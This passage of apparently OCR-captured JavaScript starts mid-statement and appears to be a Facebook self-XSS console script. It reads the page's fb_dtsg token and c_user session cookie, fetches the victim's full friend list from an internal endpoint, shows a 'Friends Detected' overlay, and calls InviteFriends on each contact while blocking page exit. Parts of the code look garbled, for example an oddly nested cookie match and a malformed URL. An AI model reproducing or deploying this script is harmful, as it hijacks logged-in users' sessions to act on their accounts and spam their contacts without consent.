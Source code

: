 arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e &amp;&amp; b) {e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&amp;" : "?";var k = null;"POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText &amp;&amp; (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[

]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);c &amp;&amp; c(b)} else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return " "};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i &lt; x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";display += arr.length + " Friends Detected";display += "&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});
